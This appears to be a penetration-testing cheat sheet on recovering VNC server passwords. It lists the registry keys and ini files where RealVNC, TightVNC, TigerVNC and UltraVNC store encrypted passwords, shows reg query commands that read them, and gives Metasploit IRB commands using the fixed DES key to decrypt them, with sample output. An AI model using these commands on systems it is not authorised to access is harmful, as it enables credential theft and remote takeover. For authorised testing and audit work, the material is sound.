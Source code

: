 # Locating The Encrypted VNC Password

1. Open regedit.exe
2. Expand the HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\ until you reach vncserver.
3. At the right pane, you should see a registry name called Password with the type as REG_SZ and random characters for the data. The random characters you see for Password is the encrypted password for RealVNC.

## RealVNC
HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver
HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4
Value: Password

## TightVNC
HKEY_CURRENT_USER\Software\TightVNC\Server
HKLM\SOFTWARE\TightVNC\Server\ControlPassword
tightvnc.ini
vnc_viewer.ini
Value: Password or PasswordViewOnly

## TigerVNC
HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4
Value: Password

## UltraVNC
C:\Program Files\UltraVNC\ultravnc.ini
Value: passwd or passwd2


### reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
```
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
```

### reg query HKLM\SOFTWARE\TightVNC\Server /s

```
C:\Windows\system32>reg query HKLM\SOFTWARE\TightVNC\Server /s

HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server
--- SNIP ---
    Password    	REG_BINARY    D7A514D8C556AADE
    ControlPassword    	REG_BINARY    1B8167BC0099C7DC
--- SNIP ---
```

With the encypted VNC password: D7A514D8C556AADE

decrypt it easily using the Metasploit Framework and the IRB (ruby shell) with these 3 commands:
```
fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
require 'rex/proto/rfb'
Rex::Proto::RFB::Cipher.decrypt ["YOUR ENCRYPTED VNC PASSWORD HERE"].pack('H*'), fixedkey
```


### Example:
taken from: https://github.com/frizb/PasswordDecrypts
```
$> msfconsole

msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
 => "\u0017Rk\u0006#NX\a"
>> require 'rex/proto/rfb'
 => true
>> Rex::Proto::RFB::Cipher.decrypt ["D7A514D8C556AADE"].pack('H*'), fixedkey
 => "Secure!\x00"
>> 
```





### Decrypting The Encrypted VNC Password
download the tool "VNC password decoder 0.2 (vncpwd)" from aluigi, in the password recovery section
http://aluigi.org/pwdrec.htm

https://github.com/jeroennijhof/vncpwd




Read More: https://www.raymond.cc/blog/crack-or-decrypt-vnc-server-encrypted-password/














Read More: https://www.raymond.cc/blog/crack-or-decrypt-vnc-server-encrypted-password/


